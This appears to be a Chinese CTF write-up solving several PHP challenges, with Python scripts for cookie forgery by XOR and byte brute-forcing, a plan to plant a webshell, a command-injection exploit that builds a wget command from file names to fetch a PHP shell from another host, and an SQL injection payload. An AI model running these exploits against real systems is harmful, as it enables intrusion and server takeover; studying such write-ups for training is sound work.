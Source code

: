 # trick 1
考察全局变量GLOBALS

# trick 2
简单的加密
分析一下可以知道我们获得了guest的加密内容以及随机值但不知道key值，而且我们要伪造system加密值

这里system 与 guest只差一个字符所以要爆破一下最后一个字符

```
import requests
import urllib
s = "guest"
s = "".join([chr(ord(i)+10) for i in s])
mid = "BH^IO"
mid = "".join([chr(ord(s[i])^ord(mid[i])) for i in range(5)])
print mid
s1 = "system"
# print s1[-1:]
s1 = "".join([chr(ord(i)+10) for i in s1])
last = s1[-1:]
dic = "1234567890abcdef"
ls = "".join([chr(ord(last)^ord(i)) for i in dic])
print ls

demo = "".join([chr(ord(s1[i])^ord(mid[i])) for i in range(5)])
for i in ls:
    print i
    user = ("WgEG"+demo+i).encode("base64")
    # print 
    cookie = {
    "user":urllib.quote(user)
        }
    re = requests.get("http://127.0.0.1/var/trick%202.php",cookies=cookie)
    print re.content

```

# trick 3
一道简单的代码审计，很明显是要种马

那我们可以随意输入的地方就是path参数
因为我们的输入都能打印出来

path是写入的路径 URL是获取的文件的路径 打印的是写入的路径 所以我们一次是是写不出shell的
首先将此文件写出去 然后利用path特性种马即可

# trick 4
这道题目本地复现的时候出现了很多问题，post传参方式不同也会影响结果
```
#!/usr/bin/python
# -*- coding: utf-8 -*-
import requests
def GetShell():
    s=requests.session()
    url = "http://192.168.43.165/ping.php"
    url1 = "http://192.168.60.128/web200-3/src/"
    header = {
        "Content-Type":"application/x-www-form-urlencoded"
    }
    data1={'username':'a','password[]':'a'}
    # s.post(url1,data=data1,headers=header)
    '''
    wget\\
    \ 19\\
    2.\\
    16\\
    8.\\
    60.\\
    12\\
    8\ \\
    1.php\ \\
    -O\ \\
    2.php
    '''
    fileNames = ["2.php", "-O\ \\\\", "1.php\ \\","8\ \\\\", "12\\\\", "60.\\\\", "8.\\\\", "16\\\\","2.\\\\", "\ 19\\\\", "wget\\\\"]
   # 多出的\只是为了充填，无论几个\都是一样的作用
    ip = "0.0.0.1%0a"
    for fileName in fileNames:
        createFileIp = ip + ">" + fileName
        print createFileIp
        data = "ip=" + createFileIp#这里不知道为什么普通的传参不行
        s.post(url, data=data,headers=header,)
    getShIp = ip + "ls%20-t>1"  #新生成的文件输入进1中
    print getShIp
    data = "ip=" + getShIp
    s.post(url, data=data,headers=header)
    getShellIp = ip + "sh%201" # 执行1这个脚本
    print getShellIp
    data = "ip=" + getShellIp
    s.post(url, data=data,headers=header)
if __name__ == "__main__":
    GetShell()
```

# trick 5
简单的加以分析，因为要注入pass中的值，而且pass被过滤所以利用order By来进行比较
但前提是要知道admin的值，所以利用`username='^1^1#&password=1`把用户名爆出来
下面就好写了